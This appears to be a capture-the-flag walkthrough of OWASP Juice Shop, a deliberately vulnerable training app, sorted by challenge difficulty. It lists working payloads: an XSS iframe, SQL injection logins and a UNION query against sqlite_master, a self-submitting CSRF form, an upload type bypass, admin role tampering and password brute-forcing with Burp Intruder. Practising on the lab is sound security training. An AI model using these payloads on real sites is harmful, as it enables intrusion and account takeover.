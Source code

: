 # OWASP Juice Shop<br>
## 1 STAR
### Score Board<br>
Firefox > Debugger > Search score > found: /score-board<br><br>
http://localhost:3000/#/score-board<br>

### Bully Chatbot<br>
Menu > Support Chat > Keep spamming coupon <br><br>

### DOM XSS<br>
search bar > <iframe src="javascript:alert(`xss`)"><br><br>

### Bonus Payload<br>
Search bar <br>
```
<iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe>
```
### Confidential Document<br>
http://localhost:3000/ftp > acquisitions.md<br><br>

### Error Handling<br>
Account Login > put ' in email and password fields<br><br>

### Exposed Metrics<br>
http://localhost:3000/metrics<br><br>

### Outdated Allowlist<br>
gospider -v -s http://127.0.0.1:3000/ -o gospider_output<br>
cd gospider_output
cat 127_0_0_1 | grep code-200<br><br>

### Missing Encoding<br>
change # to %23<br>
http://localhost:3000/assets/public/images/uploads/%F0%9F%98%BC-%23zatschi-%23whoneedsfourlegs-1572600969477.jpg<br><br>

### Zero Stars<br>
http://localhost:3000/#/contact<br>
burp proxy > repeater > rating:0<br><br>

### Repetitive Registration<br>
http://localhost:3000/#/register<br>
burp proxy > repeater > passwordRepeat:""<br><br>

## 2 STAR
### Login Admin<br>
http://localhost:3000/#/login<br>
email:admin' or true--<br>
password:'<br><br>

### Admin Section<br>
http://localhost:3000/#/administration<br><br>

### Five-Star Feedback<br>
http://localhost:3000/#/administration<br>
delete button<br>

### Empty User Registration<br>
http://localhost:3000/#/login<br>
burp proxy > repeater > email:"",password:"",passwordRepeat:""<br><br>

### Empty User Registration<br>
email:mc.safesearch@juice-sh.op<br>
password:Mr. N00dles<br>

### Meta Geo Stalking<br>
http://localhost:3000/#/forgot-password<br>
exiftool favorite-hiking-place.png <br>
36°57’31.38″ N 84°20’53.58″ W <br>
burp suite > repeater<br>
email: john@juice-sh.op<br>
secret:Daniel Boone National Forest<br>

### Weird Crypto
hash analyzer > 4b2e6b2618920cb1713bb801cd05401e<br>
http://localhost:3000/#/contact <br>
Comment: md5 > submit <br>

### Visual Geo Stalking
http://localhost:3000/#/forgot-password<br>
http://localhost:3000/assets/public/images/uploads/IMG_4253.jpg<br>
email: emma@juice-sh.op<br>
secret: ITsec<br>

### View Basket
http://localhost:3000/#/basket<br>
burp suite > repeater<br>
GET /rest/basket/X HTTP/1.1 <br>

### Security Policy
localhost:3000/.well-known/security.txt<br>

### Deprecated Interface 
http://localhost:3000/#/complain <br>
sudo apt install npm<br>
sudo npm -g install js-beautify<br>
js-beautify main.js > main1.js<br>
grep pdf main1.js<br>
```
allowedMimeType: ["application/pdf", "application/xml", "text/xml", "application/zip", "application/x-zip-compressed", "multipart/x-zip"],["ng2FileSelect", "", "id", "file", "type", "file", "accept", ".pdf,.zip", "aria-label", "Input area for uploading a single invoice PDF or XML B2B order file or a ZIP archive containing multiple invoices or orders\x3c!----\x3e", 2, "margin-left", "10px", 3, "uploader"]
rename .xml file extension to .zip or .pdf > uoload and submit
burp suite > repeater > remove .zip to .xml extension
Content-Disposition: form-data; name="file"; filename="legal.xml.zip"
```
### Login Admin
http://localhost:3000/#/login<br>
email:admin@juice-sh.op<br>
burp suite > intruder > positions: password > attack type: sniper<br>
payloads > usr/share/wordlist/fern-wifi/common.txt <br>

## 3 STAR
### Upload type
http://localhost:3000/#/complain <br>
rename .txt file extension to .zip or .pdf > uoload and submit<br>
burp suite > repeater > remove .zip to .txt extension<br>
Content-Disposition: form-data; name="file"; filename="legal.txt.zip"<br>

### Admin Registration
http://localhost:3000/#/register<br>
burp suite > proxy <br>
Post response > role:"customer" <br>
Post request > "role":"admin" <br>

### Bjoern's Favorite Pet 
http://localhost:3000/#/forgot-password<br>
email:bjoern@owasp.org <br>
secret: Zaya<br>

### CAPTCHA Bypass 
http://localhost:3000/#/contact <br>
burp suite > proxy > repeater <br>
send x10 <br>

### CSRF
download firefox 96.0 <br>
http://localhost:3000/profile > login into account <br>
http://htmledit.squarefree.com/ <br>
submit form: <br>
```
<form action="http://localhost:3000/profile" method="POST">
  <input name="username" value="CSRF"/>
  <input type="submit"/>
</form>
<script>document.forms[0].submit();</script>
```

### Database schema
http://localhost:3000/#/search?q=<br>
burp suite > proxy > repeater <br>
GET /rest/products/search?q=apple'))union%20select%20sql,2,3,4,5,6,7,8,9%20from%20sqlite_master-- HTTP/1.1<br>

### Upload size
### Manipulate Basket 
Add to basket<br>
burp suite > proxy > repeater <br>
POST /api/BasketItems/ HTTP/1.1 <br>
```
"ProductId":24,
"BasketId":"1",
"quantity":1,
"BasketId":"3"
```

### Reset Jim's Password 
http://localhost:3000/#/forgot-password<br>
email:jim@juice-sh.op<br>
secret: Samuel<br>

###  Forged Review 
add review for item<br>
burp suite > proxy<br>
"author":"emma@juice-sh.op"<br>

### Login Bender
http://localhost:3000/#/login<br>
email: bender@juice-sh.op'--<br>
password: '<br>

### Login Amy
http://localhost:3000/#/login<br>
burp suite > proxy<br>
"email":"amy@juice-sh.op"<br>
"password":"K1f....................."<br>

### GDPR Data Erasure 




























